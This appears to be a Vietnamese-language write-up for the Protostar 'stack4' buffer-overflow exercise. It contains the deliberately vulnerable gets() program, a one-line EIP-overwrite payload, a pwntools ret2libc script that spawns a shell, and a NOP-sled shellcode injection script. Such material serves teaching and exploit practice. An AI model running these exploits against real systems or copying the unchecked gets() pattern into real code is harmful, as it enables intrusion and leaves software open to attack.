

# stack4

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bài này cũng không có gì khó. Ghi địa chỉ hàm win vào EIP là được.


Mình sử dụng pwndbg + cyclic để tìm ra padding.
Xem qua hàm main nhé

```ASM (intel syntax)
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

## Solution

### ghi đè EIP

Dùng Gdb hoặc objdump ta có địa chỉ của hàm win: `0x080483f4`

payload: `python -c 'print "a"*76 +"\xf4\x83\x04\x08"' | ./stack4`


## spawn shell

vẫn tương tự các bài trước :D

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 76*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack4')
p.sendline(payload)
p.interactive()
```



### inject shellcode

```python
#!/usr/bin/python3
from pwn import *

padding = b'a'*76
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack4')
p.sendline(payload)
p.interactive()
```
